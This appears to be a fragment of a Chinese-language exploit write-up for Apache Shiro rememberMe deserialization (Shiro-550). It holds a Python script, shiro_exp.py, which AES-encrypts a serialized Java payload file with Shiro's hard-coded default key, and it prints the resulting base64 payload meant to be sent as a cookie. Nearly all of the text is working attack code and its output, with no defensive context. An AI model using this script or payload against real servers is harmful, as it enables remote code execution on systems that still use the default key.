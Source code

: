 shiro_exp.py 加密编码：

```python
import sys

import uuid

import base64

import subprocess

from Crypto.Cipher import AES

def get_file(name):

    with open(name,'rb') as f:

        data = f.read()

    return data

def en_aes(data):

    BS = AES.block_size

    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()

    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")

    iv = uuid.uuid4().bytes

    encryptor = AES.new(key, AES.MODE_CBC, iv)

    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(pad(data)))

    return base64_ciphertext

if __name__ == '__main__':

    data = get_file("ser.bin")

    print(en_aes(data))
```

生成payload

```
nTGsB655QJCuFHFsVoV2zLgESzpUlR/L6QBU77NZ+RedyPWgHwgTBKZ68C8axJ31ClnJqwCdY1sytynGw9mOQxVqeNbfoiK1l3lvSGPJ/x0hkCxCJD3EMhx1huBla4MP+4aZ++74EKUgr0z2wG8y2i80wKmnOqOdXQisnsyxxo5C7+dJnt3pJpBkOu2KqtRDZ4JPbJw/bXTskBzMJlpz/YFneSb3uf19ARFn2wBBqZfMy8eVCjeAic1R8oUAee3uBTBC9G3SNw2HO3Qrs7mWDK1w3Pb2xd0dvcLtJQVK+DdzLlfmqcmH8JtR+ZwMj4eYnra7tL8IF70CnSJX4rucVsbvlJxFHF+17F2lefNJebS/dKSImCVjqA+SoLzDTvP74El89CsquWDxdKryLiVHKZm8kpll5Ru6ykAWJF0jufA=
```
